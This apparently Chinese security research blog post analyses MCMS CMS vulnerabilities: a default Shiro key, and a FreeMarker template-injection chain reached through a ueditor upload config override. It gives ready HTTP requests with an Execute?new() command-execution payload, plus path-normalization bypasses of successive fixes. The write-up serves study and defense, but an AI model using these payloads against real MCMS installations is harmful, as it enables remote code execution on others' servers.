 
# [](#%E5%8F%88%E5%8F%88%E5%8F%88%E6%98%AF%E4%B8%80%E4%B8%AA%E5%B1%9E%E6%80%A7%E8%A6%86%E7%9B%96%E5%B8%A6%E6%9D%A5%E7%9A%84%E6%BC%8F%E6%B4%9E "又又又是一个属性覆盖带来的漏洞")又又又是一个属性覆盖带来的漏洞

想到最近出了好几个与属性覆盖有关的漏洞，突然想到有一个国产系统也曾经出过这类问题，比较有趣这里简单分享一下，希望把一些东西串起来分享方便学到一些东西

## [](#%E5%89%8D%E5%90%8E%E7%AB%AF%E6%A1%86%E6%9E%B6%E4%BF%A1%E6%81%AF%E6%A2%B3%E7%90%86 "前后端框架信息梳理")前后端框架信息梳理

首先简单从官网可以看出所使用的框架信息以及技术选型

[https://gitee.com/mingSoft/MCMS?\_from=gitee\_search](https://gitee.com/mingSoft/MCMS?_from=gitee_search)

我们主要关注几个点一个是shiro，一个是freemarker，还有就是具体的一些未鉴权的功能点，同时支持两种部署方式jar/war

关于路由的说明，在启动类当中，指出了扫描的包名前缀为net.mingsoft

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```plain<br>@SpringBootApplication(scanBasePackages = {"net.mingsoft"})<br>@MapperScan(basePackages={"**.dao","com.baomidou.**.mapper"})<br>@ServletComponentScan(basePackages = {"net.mingsoft"})<br>public class MSApplication {<br>	public static void main(String[] args) {<br>		SpringApplication.run(MSApplication.class, args);<br>	}<br>}<br>``` |

因此与路由相关函数只会出现在三个地方

1.  源目录下
2.  ms-basic依赖包下
3.  ms-mdiy依赖包下

这个系统曾出现过很多漏洞，各类后台文件上传利用，注入、任意文件删除等等，但其实都比较鸡肋不适合学习

## [](#Shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E7%89%88%E6%9C%AC-lt-5-2-8 "Shiro反序列化(版本<=5.2.8 )")Shiro反序列化(版本<=5.2.8 )

在开始前先简单我们知道shiro的版本高低只是加密方式的改变，实际上反序列化漏洞依然存在，如果系统使用了默认的key那也是存在潜在风险的，而恰好在MCMS<=5.2.8版本下都使用了默认的key，使用这个key生成payload，直接打CB链即可![image-20231228213327055](assets/1704158399-71f9647455d0bde0cbe904cbb4f0407b.png)

接下来我们重点看另一个漏洞

## [](#%E5%89%8D%E5%8F%B0%E6%A8%A1%E6%9D%BFSSTIRCE%E5%88%A9%E7%94%A8%E5%8F%B2 "前台模板SSTIRCE利用史")前台模板SSTIRCE利用史

接下来我们看另一个漏洞，和模板相关的漏洞

因为这里的模板渲染使用了`freemarker`，我们便有两个思路：

1.  版本是否在漏洞版本
2.  写法是否安全

在MCMS中关于模板的渲染处理，是通过封装了一个工具类做的处理，在依赖包`ms-mdiy`中的`net.mingsoft.mdiy.util.ParserUtil#rendering`做处理

MCMS是在5.1版本开始使用`freemarker`做模板渲染，并且版本一直没有改变过，传家宝`"2.3.31"`

对于freemarker的模板，通常是通过api与new进行的利用，当然也有利用限制

对于内置函数api

`api_builtin_enabled`为`true`时才可使用api函数，而该配置在2.3.22版本之后默认为`false`

对于内置函数new

从 2.3.17版本以后，官方版本提供了三种TemplateClassResolver对类进行解析：

1、UNRESTRICTED\_RESOLVER：可以通过 `ClassUtil.forName(className)`获取任何类。

2、SAFER\_RESOLVER：不能加载`freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor`这三个类。

3、ALLOWS\_NOTHING\_RESOLVER：不能解析任何类。

可通过`freemarker.core.Configurable#setNewBuiltinClassResolver`方法设置`TemplateClassResolver`，从而限制通过new()函数对`freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor`这三个类的解析

尽管MCMS的漏洞版本比较高，但是他在5.8版本以下并未对内置函数new做严格限制，具体我们可以看看`net.mingsoft.mdiy.util.ParserUtil#rendering`

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>``` | ```plain<br>public static String rendering(Map root, String content) throws IOException, TemplateException {<br>    Configuration cfg = new Configuration(Configuration.VERSION_2_3_0);<br>    StringTemplateLoader stringLoader = new StringTemplateLoader();<br>    stringLoader.putTemplate("template", content);<br>    cfg.setNumberFormat("#");<br>    cfg.setTemplateLoader(stringLoader);<br>    Template template = cfg.getTemplate("template", "utf-8");<br>    StringWriter writer = new StringWriter();<br>    template.process(root, writer);<br>    return writer.toString();<br>}<br>``` |

虽然在freemarker版本在较安全的版本，但并未配置new-builtin-class-resolver，因此接下来我们只需要找到调用的点即可

在高版本后5.2.9，开发者终于意识到这个问题，设置了`cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER);`

回到正题，这里我们先从较低的版本说起，以5.2.5来做例子

### [](#V-lt-5-2-5 "V<=5.2.5")V<=5.2.5

首先是一个能任意控制模板渲染的函数

这个路由非常好找，就在源码路径下为数不多不是CRUD功能的类中`net.mingsoft.cms.action.web.MCmsAction#search`

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>``` | ```plain<br>/**<br>     * 实现前端页面的文章搜索<br>     *<br>     * @param request  搜索id<br>     * @param response<br>     */<br>    @RequestMapping(value = "search",method = {RequestMethod.GET, RequestMethod.POST})<br>    @ResponseBody<br>    public String search(HttpServletRequest request, HttpServletResponse response) {<br>        String search = BasicUtil.getString("tmpl", "search.htm");<br>				............<br>        //解析后的内容<br>        String content = "";<br>        try {<br>            //根据模板路径，参数生成<br>            content = ParserUtil.rendering(search, params);<br>        } catch (TemplateNotFoundException e) {<br>            e.printStackTrace();<br>        } catch (MalformedTemplateNameException e) {<br>            e.printStackTrace();<br>        } catch (ParseException e) {<br>            e.printStackTrace();<br>        } catch (IOException e) {<br>            e.printStackTrace();<br>        }<br>        return content;<br>    }<br>``` |

可以这里通过`tmpl`参数能实现渲染文件的完全控制，但是

在`ParserUtil.getPageSize(search, 20)`当中我们会发现，其读取文件过程中使用了`hutool`的`FileUtil.file`,在这个第三方工具类使用了checkSlip防止目录穿越，因此非常可惜我们现在能渲染任意路径下的文件了

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>``` | ```plain<br>public static File checkSlip(File parentFile, File file) throws IllegalArgumentException {<br>    if (null != parentFile && null != file) {<br>        String parentCanonicalPath;<br>        String canonicalPath;<br>        try {<br>            parentCanonicalPath = parentFile.getCanonicalPath();<br>            canonicalPath = file.getCanonicalPath();<br>        } catch (IOException var5) {<br>            throw new IORuntimeException(var5);<br>        }<br><br>        if (!canonicalPath.startsWith(parentCanonicalPath)) {<br>            throw new IllegalArgumentException("New file is outside of the parent dir: " + file.getName());<br>        }<br>    }<br><br>    return file;<br>}<br>``` |

那要想实现，那必须找到一个能够控制任意路径上传，或者能够配合目录穿越跳转的上传点，这个系统中正好就有，在`net.mingsoft.basic.action.web.EditorAction#editor`中，参数传入后交给了`MsUeditorActionEnter`类继续处理

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>``` | ```plain<br>public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {<br>    String rootPath = BasicUtil.getRealPath("");<br>    File saveFloder = new File(this.uploadFloderPath);<br>    if (saveFloder.isAbsolute()) {<br>        rootPath = saveFloder.getPath();<br>        jsonConfig = jsonConfig.replace("{ms.upload}", "");<br>    } else {<br>        jsonConfig = jsonConfig.replace("{ms.upload}", "/" + this.uploadFloderPath);<br>    }<br><br>    String json = (new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""))).exec();<br>    if (saveFloder.isAbsolute()) {<br>        Map data = (Map)JSON.parse(json);<br>        data.put("url", this.uploadMapping.replace("/**", "") + data.get("url"));<br>        return JSON.toJSONString(data);<br>    } else {<br>        return json;<br>    }<br>}<br><br>public MsUeditorActionEnter(HttpServletRequest request, String rootPath, String jsonConfig, String configPath) {<br>    super(request, rootPath);<br>    if (jsonConfig != null && !jsonConfig.trim().equals("") && jsonConfig.length() >= 0) {<br>        this.setConfigManager(ConfigManager.getInstance(configPath, request.getContextPath(), request.getRequestURI()));<br>        ConfigManager config = this.getConfigManager();<br>        setValue(config, "rootPath", rootPath);<br>        JSONObject _jsonConfig = new JSONObject(jsonConfig);<br>        JSONObject jsonObject = config.getAllConfig();<br>        Iterator iterator = _jsonConfig.keys();<br><br>        while(iterator.hasNext()) {<br>            String key = (String)iterator.next();<br>            jsonObject.put(key, _jsonConfig.get(key));<br>        }<br><br>    }<br>}<br>``` |

在初始化过程中，先初始化了父类，这里可以看到，`actionType`受我们传入的参数控制，这个参数决定了方法的调用

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```plain<br>public ActionEnter(HttpServletRequest request, String rootPath) {<br>    this.request = request;<br>    this.rootPath = rootPath;<br>    this.actionType = request.getParameter("action");<br>    this.contextPath = request.getContextPath();<br>    this.configManager = ConfigManager.getInstance(this.rootPath, this.contextPath, request.getRequestURI());<br>}<br>``` |

接下来回到`MsUeditorActionEnter`构造函数处理过程，紧接着调用了`this.getConfigManager()`初始化一些上传配置，而这个配置来源于文件`static/plugins/ueditor/1.4.3.3/jsp/config.json`，这个配置文件对上传做了限制，包括保存文件路径模板、大小、允许的后缀等，感兴趣的可以自己看看这个初始化过程，因为不太关键这里就不多叙述

在这里可以看到存在一个参数覆盖的问题(jsonConfig来源于web参数)，可以由自定义的输入覆盖默认配置，具体覆盖什么配置待会儿会说

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```plain<br>public MsUeditorActionEnter(HttpServletRequest request, String rootPath, String jsonConfig, String configPath) {<br>    super(request, rootPath);<br>    if (jsonConfig != null && !jsonConfig.trim().equals("") && jsonConfig.length() >= 0) {<br>        this.setConfigManager(ConfigManager.getInstance(configPath, request.getContextPath(), request.getRequestURI()));<br>        ConfigManager config = this.getConfigManager();<br>        setValue(config, "rootPath", rootPath);<br>        JSONObject _jsonConfig = new JSONObject(jsonConfig);<br>        JSONObject jsonObject = config.getAllConfig();<br>        Iterator iterator = _jsonConfig.keys();<br><br>        while(iterator.hasNext()) {<br>            String key = (String)iterator.next();<br>            jsonObject.put(key, _jsonConfig.get(key));<br>        }<br><br>    }<br>}<br>``` |

接下来初始化后调用exec方法，这里callback是否传入对我们不是很重要，继续看invoke方法

根据我们之前传入的actionType决定走入哪个分支

可以看到一共有8种类型，对应了不同的漏洞点，因为我们`只关心RCE`，所以这里就以上传为例，选择uploadfile

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```plain<br>this.put("config", 0);<br>this.put("uploadimage", 1);<br>this.put("uploadscrawl", 2);<br>this.put("uploadvideo", 3);<br>this.put("uploadfile", 4);<br>this.put("catchimage", 5);<br>this.put("listfile", 6);<br>this.put("listimage", 7);<br>``` |

在之后调用`(new Uploader(this.request, conf)).doExec()`做处理，这里的参数走向我们同样不在乎随便选择一个即可

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>``` | ```plain<br>public final State doExec() {<br>    String filedName = (String)this.conf.get("fieldName");<br>    State state = null;<br>    if ("true".equals(this.conf.get("isBase64"))) {<br>        state = Base64Uploader.save(this.request.getParameter(filedName), this.conf);<br>    } else {<br>        state = BinaryUploader.save(this.request, this.conf);<br>    }<br><br>    return state;<br>}<br>``` |

省略其中的不关键的部分，这里我们只需要关注最终保存路径的生成即可

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```plain<br>...<br>String savePath = (String)conf.get("savePath");<br>String originFileName = fileStream.getName();<br>String suffix = FileType.getSuffixByFilename(originFileName);<br>originFileName = originFileName.substring(0, originFileName.length() - suffix.length());<br>savePath = savePath + suffix;<br>long maxSize = (Long)conf.get("maxSize");<br>if (!validType(suffix, (String[])((String[])conf.get("allowFiles")))) {<br>    return new BaseState(false, 8);<br>} else {<br>    savePath = PathFormat.parse(savePath, originFileName);<br>    String physicalPath = (String)conf.get("rootPath") + savePath;<br>    InputStream is = fileStream.openStream();<br>    State storageState = StorageManager.saveFileByInputStream(is, physicalPath, maxSize);<br>    is.close();<br>    if (storageState.isSuccess()) {<br>        storageState.putInfo("url", PathFormat.format(savePath));<br>        storageState.putInfo("type", suffix);<br>        storageState.putInfo("original", originFileName + suffix);<br>    }<br>}<br>...<br>``` |

1.  从配置获取保存的路径
2.  从Multipart解析文件后缀拼接
3.  使用PathFormat.parse处理替换模板标签内容
4.  与根路径拼接并写入文件

在`com.baidu.ueditor.PathFormat#parse`的处理过程当中会对filename中字符做替换，导致`/`字符丢失因此不能从filename控制路径的穿越

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```plain<br>filename = filename.replace("$", "\\$").replaceAll("[\\/:*?\"<>\|]", "");<br>``` |

因此我们只能通过控制`savePath`实现完整的路径控制(还记得么，上面一开始提到过可以做参数覆盖)，对于我们的uploadfile的action，对应的savepath属性为filePathFormat，因此构造，当然也可以覆盖其他属性参数这里不重复

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```plain<br>Ps:{{url()}是yakit的url编码的标签<br>POST /static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig={{url({filePathFormat:'/template/1/default/2'})}}&action=uploadfile  HTTP/1.1<br>Host: 127.0.0.1:8079<br>Accept: */*<br>Accept-Encoding: gzip, deflate<br>Connection: close<br>Content-Length: 362<br>Content-Type: multipart/form-data; boundary=------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36<br>X_Requested_With: UTF-8<br><br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>Content-Disposition: form-data; name="upload"; filename="1.txt"<br><br><#assign value="freemarker.template.utility.Execute"?new()>${value("open -na Calculator")}<br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA--<br>``` |

### [](#V-lt-5-2-8 "V<=5.2.8")V<=5.2.8

接下来我们看看开发是如何修复这个问题的，这里我的环境是5.2.8，这一次开发意识到了问题所在，做了两个步骤的修复

1.  rootPath由程序控制在必须为upload目录下
2.  对每一个路径配置做了一次路径归一化

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>``` | ```plain<br>public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {<br>    String uploadFloderPath = MSProperties.upload.path;<br>    String rootPath = BasicUtil.getRealPath(uploadFloderPath);<br>    jsonConfig = jsonConfig.replace("{ms.upload}", "/" + uploadFloderPath);<br>    Map<String, Object> map = (Map)JSONObject.parse(jsonConfig);<br>    String imagePathFormat = (String)map.get("imagePathFormat");<br>    imagePathFormat = FileUtil.normalize(imagePathFormat);<br>    String filePathFormat = (String)map.get("filePathFormat");<br>    filePathFormat = FileUtil.normalize(filePathFormat);<br>    String videoPathFormat = (String)map.get("videoPathFormat");<br>    videoPathFormat = FileUtil.normalize(videoPathFormat);<br>    map.put("imagePathFormat", imagePathFormat);<br>    map.put("filePathFormat", filePathFormat);<br>    map.put("videoPathFormat", videoPathFormat);<br>    jsonConfig = JSONObject.toJSONString(map);<br>    MsUeditorActionEnter actionEnter = new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""));<br>    String json = actionEnter.exec();<br>    Map jsonMap = (Map)JSON.parseObject(json, Map.class);<br>    jsonMap.put("url", "/".concat(uploadFloderPath).concat(jsonMap.get("url") + ""));<br>    return JSONObject.toJSONString(jsonMap);<br>}<br>``` |

那是不是就没办法了呢？请独立思考三分钟

之前提到了在`PathFormat.parse`当中，有对最终路径当中的模板做替换(当然这里和老版本的逻辑不一样，简化了很多，分析时以当前版本为准，有兴趣可以看看老版)，可以看到会取{xxx}中的内容，之后调用getString做替换

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```plain<br>public static String parse(String input, String filename) {<br>    Pattern pattern = Pattern.compile("\\{([^\\}]+)\\}", 2);<br>    Matcher matcher = pattern.matcher(input);<br>    String matchStr = null;<br>    currentDate = new Date();<br>    StringBuffer sb = new StringBuffer();<br><br>    while(matcher.find()) {<br>        matchStr = matcher.group(1);<br>        if (matchStr.indexOf("filename") != -1) {<br>            filename = filename.replace("$", "\\$").replaceAll("[\\/:*?\"<>\|]", "");<br>            matcher.appendReplacement(sb, filename);<br>        } else {<br>            matcher.appendReplacement(sb, getString(matchStr));<br>        }<br>    }<br><br>    matcher.appendTail(sb);<br>    return sb.toString();<br>}<br>``` |

可以看到如果字符不在当前的case当中会直接返回

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```plain<br>private static String getString(String pattern) {<br>    pattern = pattern.toLowerCase();<br>    if (pattern.indexOf("time") != -1) {<br>        return getTimestamp();<br>    } else if (pattern.indexOf("yyyy") != -1) {<br>        return getFullYear();<br>    } else if (pattern.indexOf("yy") != -1) {<br>        return getYear();<br>    } else if (pattern.indexOf("mm") != -1) {<br>        return getMonth();<br>    } else if (pattern.indexOf("dd") != -1) {<br>        return getDay();<br>    } else if (pattern.indexOf("hh") != -1) {<br>        return getHour();<br>    } else if (pattern.indexOf("ii") != -1) {<br>        return getMinute();<br>    } else if (pattern.indexOf("ss") != -1) {<br>        return getSecond();<br>    } else {<br>        return pattern.indexOf("rand") != -1 ? getRandom(pattern) : pattern;<br>    }<br>}<br>``` |

有了这个思路我们便可以构造如下payload绕过校验

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```plain<br>Ps:{{url()}是yakit的url编码的标签<br>POST /static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig={filePathFormat:'/{.}./template/1/default/2'}&action=uploadfile  HTTP/1.1<br>Host: 127.0.0.1:8080<br>Accept: */*<br>Accept-Encoding: gzip, deflate<br>Connection: close<br>Content-Length: 362<br>Content-Type: multipart/form-data; boundary=------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36<br>X_Requested_With: UTF-8<br><br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA<br>Content-Disposition: form-data; name="upload"; filename="1.txt"<br><br><#assign value="freemarker.template.utility.Execute"?new()>${value("open -na Calculator")}<br>--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA--<br>``` |

### [](#V-lt-5-3-5-%E7%9B%AE%E5%89%8D%E6%9C%80%E6%96%B0%E7%89%88 "V<=5.3.5(目前最新版)")V<=5.3.5(目前最新版)

首先来看最新版做了哪些变动

1.  在最外层做了jsonConfig判断内容(似乎也没修复什么)

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>``` | ```plain<br>public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig) {<br>    String uploadFolderPath = MSProperties.upload.path;<br>    boolean enableWeb = MSProperties.upload.enableWeb;<br>    if (!enableWeb) {<br>        HashMap<String, String> map = new HashMap();<br>        map.put("state", "front end upload is not enabled");<br>        return JSONUtil.toJsonStr(map);<br>    } else {<br>        String rootPath = BasicUtil.getRealPath(uploadFolderPath);<br>        jsonConfig = jsonConfig.replace("{ms.upload}", "/" + uploadFolderPath);<br>        Map<String, Object> map = (Map)JSONUtil.toBean(jsonConfig, Map.class);<br>        String imagePathFormat = (String)map.get("imagePathFormat");<br>        imagePathFormat = FileUtil.normalize(imagePathFormat);<br>        String filePathFormat = (String)map.get("filePathFormat");<br>        filePathFormat = FileUtil.normalize(filePathFormat);<br>        String videoPathFormat = (String)map.get("videoPathFormat");<br>        videoPathFormat = FileUtil.normalize(videoPathFormat);<br>        map.put("imagePathFormat", imagePathFormat);<br>        map.put("filePathFormat", filePathFormat);<br>        map.put("videoPathFormat", videoPathFormat);<br>        jsonConfig = JSONUtil.toJsonStr(map);<br>        if (jsonConfig == null \| !jsonConfig.contains("../") && !jsonConfig.contains("..\\")) {<br>            MsUeditorActionEnter actionEnter = new MsUeditorActionEnter(request, rootPath, jsonConfig, BasicUtil.getRealPath(""));<br>            String json = actionEnter.exec();<br>            Map jsonMap = (Map)JSONUtil.toBean(json, Map.class);<br>            jsonMap.put("url", "/".concat(uploadFolderPath).concat(jsonMap.get("url") + ""));<br>            return JSONUtil.toJsonStr(jsonMap);<br>        } else {<br>            throw new BusinessException(BundleUtil.getString("net.mingsoft.base.resources.resources", "err.error", new String[]{BundleUtil.getString("net.mingsoft.basic.resources.resources", "file.path", new String[0])}));<br>        }<br>    }<br>}<br>``` |

2.  禁止通过属性覆盖修改允许的后缀(我估计开发以为模板引擎必须要htm后缀才行了，忘记他自己写的函数是可以随意指定后缀了2333)，以及文件读取相关属性

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>``` | ```plain<br>public MsUeditorActionEnter(HttpServletRequest request, String rootPath, String jsonConfig, String configPath) {<br>        super(request, rootPath);<br>        if (jsonConfig != null && !jsonConfig.trim().equals("") && jsonConfig.length() >= 0) {<br>            this.setConfigManager(ConfigManager.getInstance(configPath, request.getContextPath(), request.getRequestURI()));<br>            ConfigManager config = this.getConfigManager();<br>            setValue(config, "rootPath", rootPath);<br>            JSONObject _jsonConfig = new JSONObject(jsonConfig);<br>            _jsonConfig.remove("fileManagerAllowFiles");<br>            _jsonConfig.remove("imageManagerAllowFiles");<br>            _jsonConfig.remove("catcherAllowFiles");<br>            _jsonConfig.remove("imageAllowFiles");<br>            _jsonConfig.remove("fileAllowFiles");<br>            _jsonConfig.remove("videoAllowFiles");<br>            _jsonConfig.remove("imageManagerListPath");<br>            _jsonConfig.remove("fileManagerListPath");<br>            JSONObject jsonObject = config.getAllConfig();<br>            Iterator iterator = _jsonConfig.keys();<br><br>            while(iterator.hasNext()) {<br>                String key = (String)iterator.next();<br>                jsonObject.put(key, _jsonConfig.get(key));<br>            }<br><br>        }<br>    }<br>``` |

3.  引擎解析测

设置禁止加载任意类

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```plain<br>cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER)<br>``` |

但这样并不能完全修复问题，可以参考辅助学习([https://www.cnblogs.com/escape-w/p/17326592.html)，虽然这个项目不存在这些问题就是了](https://www.cnblogs.com/escape-w/p/17326592.html)%EF%BC%8C%E8%99%BD%E7%84%B6%E8%BF%99%E4%B8%AA%E9%A1%B9%E7%9B%AE%E4%B8%8D%E5%AD%98%E5%9C%A8%E8%BF%99%E4%BA%9B%E9%97%AE%E9%A2%98%E5%B0%B1%E6%98%AF%E4%BA%86)

那么如何才能rce呢？提示一下，我们知道此时文件上传其实仍然能够跨目录写的，那么只能从白名单中受限的后缀入手，发挥你的想象，这里就不直接给出答案了
